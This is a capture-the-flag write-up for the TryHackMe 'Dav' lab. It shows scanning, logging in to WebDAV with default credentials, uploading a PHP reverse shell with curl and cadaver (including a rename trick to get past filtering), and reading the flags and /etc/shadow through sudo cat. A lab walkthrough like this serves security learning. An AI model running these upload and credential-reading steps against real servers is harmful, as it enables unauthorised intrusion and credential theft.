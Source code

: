 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . Dav
# DESCRIPTION       . boot2root machine for FIT and bsides guatemala CTF
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/bsidesgtdav
```

```bash
sudo nmap -sSVC -T5 -p- 10.10.250.114 -oN Dav
```

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

```
ffuf -u http://10.10.250.114/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100
```

```
webdav                  [Status: 401, Size: 460, Words: 42, Lines: 15]
```

- The page is asking for credentials ; I've tried using Hydra for a while with Seclist's usernames.txt and rockyou.txt but I had no luck.

- In the meanwhile I had searched about `webdav` since I had no idea what it was. According to some forums, `wampp:xampp` or `jigsaw:jigsaw` might be valid default credentials.

- I was lucky with the first pair and I found `passwd.dav` file.

```
wampp:$apr1${REDACTED}
```

- During my initial documentation, I found out that webdav can allow us to upload files to the webserver, so I wanted to try this first, as I don't have a clue about what to do with the credentials just yet.

- The manual way of uploading a reverse shell is using `curl` as follows

```
curl --user "user:password" -T 'shell.php' 'http://IP/webdav/'
```

- In case there would've been any filtering going on, we could've uploaded the shell as a `.txt` and rename it to `.php` with the following syntax

```
curl --user "user:password" -X MOVE --header 'Destination:http://IP/shell.php' 'http://IP/shell.txt'
```

- The same can be achieved using `cadaver` tool.

```
Authentication required for webdav on server `10.10.250.114':
Username: wampp
Password: 
dav:/webdav/> put shell.php shell.php
Uploading shell.php to `/webdav/shell.php':
Progress: [=============================>] 100.0% of 3461 bytes succeeded.
```

- The user flag is located in `/home/merlin/user.txt`.

- The user `wampp` exists on the system and the hash from the file we found earlier, according to hashcat's documenation, encrypted with `Apache $apr1$ MD5, md5apr1, MD5 (APR) 2`. 

- However, using both `hashcat` and `john` against this hash with `rockyou.txt` exausted the dictionary so I assumed this is not the intended way.

- I then started to look for privilege escalation paths from `www-data` and I've noticed that we are able to run `cat` as sudo. 

- I tried copying the user's passwords from `/etc/shadow` and `/etc/passwd` and unshadow them and then crack using john, but, again, it was taking too long and my laptop became an airplane, so there was no point for me trying harder, as this probably was not an intended path.

- I guess I must satisfy myself just with a `sudo cat /root/root.txt` to get the last flag.

___

**NOTE**:

- I spent some more time on the system after getting both flags and I've found the config for webdav

```
 cat /etc/apache2/sites-enabled/webdav.conf
```

```
AuthUserFile /var/www/html/webdav/passwd.dav
```

- Which is ... exactly. `passwd.dav`. The same file we found on the webserver after logging in.

- But this is not the same password as the one in `/etc/shadow` (at least judging by the hash).

- Nothing interesting, but at least I figured out that that hash is just the encryption of `xampp`.
